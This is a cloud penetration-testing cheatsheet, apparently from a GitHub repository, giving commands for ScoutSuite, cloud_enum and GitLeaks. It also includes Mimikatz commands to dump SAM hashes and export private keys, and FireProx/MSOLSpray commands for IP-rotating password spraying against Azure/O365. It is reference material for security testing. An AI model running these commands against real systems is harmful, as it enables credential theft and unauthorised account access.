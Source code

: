 ## Other Useful Cloud Tools and Techniques Cheatsheet

### ScoutSuite

Multi-cloud security auditing tool

https://github.com/nccgroup/ScoutSuite

Install ScoutSuite

```bash
sudo apt-get install virtualenv
git clone https://github.com/nccgroup/ScoutSuite
cd ScoutSuite
virtualenv –p python3 venv
source venv/bin/activate
pip install –r requirements.txt
```

To run as root

```bash
sudo apt-get install virtualenv
sudo su
virtualenv -p python3 venv
source venv/bin/activate
pip install scoutsuite
```

Scan AWS environment with ScoutSuite

```bash
python scout.py aws --profile=<aws profile name>

or if installed...

scout aws --profile=<aws profile name>
```

jq queries to help with parsing many ScoutSuite reports

Sometimes you may need to work with multiple ScoutSuite files and report similar items across all of them. The ScoutSuite reports are in json format so the 'jq' tool can be used to parse through them easily. Here are a few short script examples for doing this. Run these from the directory where you output each of the ScoutSuite folders to. 

```bash

### Find All Lambda Environment Variables
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.awslambda.regions[].functions[] | select (.env_variables != []) | .arn, .env_variables' >> lambda-all-environment-variables.txt
done

### Find World Listable S3 Buckets
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.account_id, .services.s3.findings."s3-bucket-AuthenticatedUsers-read".items[]'  >> s3-buckets-world-listable.txt
done

### Find All EC2 User Data
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.regions[].vpcs[].instances[] | select (.user_data != null) | .arn, .user_data'  >> ec2-instance-all-user-data.txt
done

### Find EC2 Security Groups That Whitelist AWS CIDRs
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.account_id' >> ec2-security-group-whitelists-aws-cidrs.txt
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.findings."ec2-security-group-whitelists-aws".items'  >> ec2-security-group-whitelists-aws-cidrs.txt
done

### Find EC2 EBS Public AMIs
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.regions[].images[] | select (.Public == true) | .arn' >> ec2-public-amis.txt
done

### Find All EC2 EBS Volumes Unencrypted
for d in */ ; do
	tail $d/scoutsuite-results/scoutsuite_results*.js -n +2 | jq '.services.ec2.regions[].volumes[] | select(.encrypted == false) | .arn' >> ec2-ebs-volume-not-encrypted.txt
done


```

### Cloud_Enum

Tool to search for public resources in AWS, Azure, and GCP

https://github.com/initstring/cloud_enum

```bash
python3 cloud_enum.py -k <name-to-search>
```

### GitLeaks

Search repositories for secrets

https://github.com/zricethezav/gitleaks

Pull GitLeaks with Docker

```bash
sudo docker pull zricethezav/gitleaks
```

Print the help menu

```bash
sudo docker run --rm --name=gitleaks zricethezav/gitleaks --help
```

Use GitLeaks to search for secrets

```bash
sudo docker run --rm --name=gitleaks zricethezav/gitleaks -v -r <repo URL>
```

TruffleHog - https://github.com/dxa4481/truffleHog

Shhgit - https://github.com/eth0izzle/shhgit

Gitrob - https://github.com/michenriksen/gitrob

### Mimikatz

Export Non-Exportable Private Keys From Web Server

```textile
mimikatz# crypto::capi
mimikatz# privilege::debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

Dump passwords hashes from SAM/SYSTEM files

```textile
mimikatz# lsadump::sam /system:SYSTEM /sam:SAM
```

### Check Command History

Linux Bash History Location

```bash
~/.bash_history
```

Windows PowerShell PSReadLine Location

```bash
%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### PowerView

https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
Find on-prem ADConnect account name and server

```powershell
Get-NetUser -Filter "(samAccountName=MSOL_*)" |Select-Object name,description | fl
```

### FireProx

Password Spraying Azure/O365 while randomizing IPs with FireProx

Install

```bash
git clone https://github.com/ustayready/fireprox
cd fireprox
virtualenv -p python3 .
source bin/activate
pip install -r requirements.txt
python fire.py
```

Launch FireProx

```bash
python fire.py --access_key <access_key_id> --secret_access_key <secret_access_key> --region <region> --url https://login.microsoft.com --command create
```

Password spray using FireProx + MSOLSpray

```powershell
Invoke-MSOLSpray -UserList .\userlist.txt -Password Spring2020 -URL https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox
```

### ip2Provider

Check a list of IP addresses against cloud provider IP space

https://github.com/oldrho/ip2provider

### Vulnerable Infrastructure Creation

Cloudgoat - https://github.com/RhinoSecurityLabs/cloudgoat

SadCloud - https://github.com/nccgroup/sadcloud

Flaws Cloud - http://flaws.cloud

Thunder CTF - http://thunder-ctf.cloud 
